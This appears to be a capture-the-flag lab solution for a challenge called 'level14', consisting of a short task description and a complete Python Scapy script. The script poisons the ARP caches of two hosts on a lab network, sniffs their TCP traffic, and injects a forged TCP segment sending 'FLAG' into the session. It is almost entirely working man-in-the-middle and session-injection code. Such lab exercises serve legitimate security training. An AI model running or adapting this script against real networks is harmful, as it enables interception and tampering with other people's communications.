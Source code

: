 #### level14
> Man-in-the-middle traffic between two remote hosts and inject extra traffic

In this challenge you will man in the middle traffic between two remote hosts and inject extra traffic.
The remote host at `10.0.0.4` is communicating with the remote host at `10.0.0.3` on port `31337`.

```python
from scapy.all import *
from scapy.layers.inet import *
from scapy.layers.l2 import *

interface = "eth0"
local_mac = get_if_hwaddr(interface)
local_ip = "10.0.0.2"
ip1 = "10.0.0.3"
ip2 = "10.0.0.4"

mac1=getmacbyip(ip=ip1)
mac2=getmacbyip(ip=ip2)

print(f"\033[1;32mlocal_mac:{local_mac}\033[0m")
print(f"\033[1;32mmac1:{mac1}\033[0m")
print(f"\033[1;32mmac2:{mac2}\033[0m")

eth=Ether(src=local_mac,dst="ff:ff:ff:ff:ff:ff")
arp1=ARP(op="is-at",hwsrc=local_mac,psrc=ip1,pdst=ip2)
arp2=ARP(op="is-at",hwsrc=local_mac,psrc=ip2,pdst=ip1)
sendp(eth/arp1,iface=interface)
sendp(eth/arp2,iface=interface)

def process(p:Packet):
    try:
        print("load:",p['TCP'].load)
        if p['TCP'].load==b"COMMANDS:\nECHO\nFLAG\nCOMMAND:\n":
            pdst = p['IP'].src
            psrc = p['IP'].dst
            flags = 'PA'
            ipflags = p['IP'].flags
            dst = p['Ethernet'].src
            dport = p['TCP'].sport
            sport = p['TCP'].dport
            seq = p['TCP'].ack
            ack = p['TCP'].seq+24
            pk = Ether(src=local_mac,dst=dst)/IP(src=psrc,dst=pdst,flags=ipflags)/TCP(sport=sport,dport=dport,seq=seq,ack=ack,flags=flags)/Raw(load=b"FLAG")
            sendp(pk,iface=interface)
    except Exception:
        pass
    
sniff(iface=interface,filter="tcp",prn=process)
```
